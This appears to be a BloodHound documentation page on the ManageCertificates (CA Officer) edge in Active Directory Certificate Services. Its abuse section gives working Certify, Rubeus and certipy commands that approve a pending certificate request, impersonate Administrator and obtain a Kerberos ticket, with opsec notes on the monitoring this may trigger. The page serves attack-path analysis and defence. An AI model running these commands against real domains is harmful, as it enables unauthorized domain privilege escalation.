 ```yaml
---
title: ManageCertificates
description: The principal has the "Manage Certificates", also known as "CA Officer", permission on the Enterprise CA. 
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This permission allows the principal to approve certificate requests that require manager approval and to modify certain properties (e.g., adding extensions to pending certificates). It does not by itself guarantee a privilege escalation but often removes a final barrier (manager approval) in ADCS abuse paths.

## Abuse Info

An attacker can identify ADCS escalation opportunities where manager approval on a template prevents direct abuse, but leverage the Certificate Manager role to approve the pending request. Alternatively, the role can be abused to add an extension to pending certificates (e.g., to insert a group-linked issuance policy in environments using Authentication Mechanism Assurance (AMA)). See [Certify wiki - Escalation Techniques - ManageCertificates](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#managecertificates) for details.

### Windows

Request a certificate that requires manager approval (example ESC1 scenario):
```cmd
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500
```
Note the printed private key and request ID. Approve the certificate:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```
Download the issued certificate with the embedded private key (Base64 PFX):
```cmd
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key <Base64PrivateKey>
```
Authenticate using the certificate (Rubeus example):
```cmd
Rubeus.exe asktgt /user:Administrator /certificate:<Base64PFX> /ptt
```

### Linux

Approve a pending request:
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password 'Passw0rd'
```
Retrieve the issued certificate:
```bash
certipy req -username john@corp.local -password 'Passw0rd' -ca corp-DC-CA -target ca.corp.local -retrieve 785
```

## Opsec Considerations

Approving requests generates issuance events and stores issued certificates on the CA host. Repeated approvals or unusual patterns (e.g., high-value templates) may be monitored. Added extensions or policy changes may be auditable depending on CA logging configuration.

## Edge Schema

Source: [User](/resources/nodes/user), [Group](/resources/nodes/group), [Computer](/resources/nodes/computer)   
Destination: [EnterpriseCA](/resources/nodes/enterprise-ca)   
Traversable: **Yes**  


## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [Certify wiki - Escalation Techniques - ManageCertificates](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#managecertificates)
* [ESC7: Dangerous Permissions on CA (Certipy wiki)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)


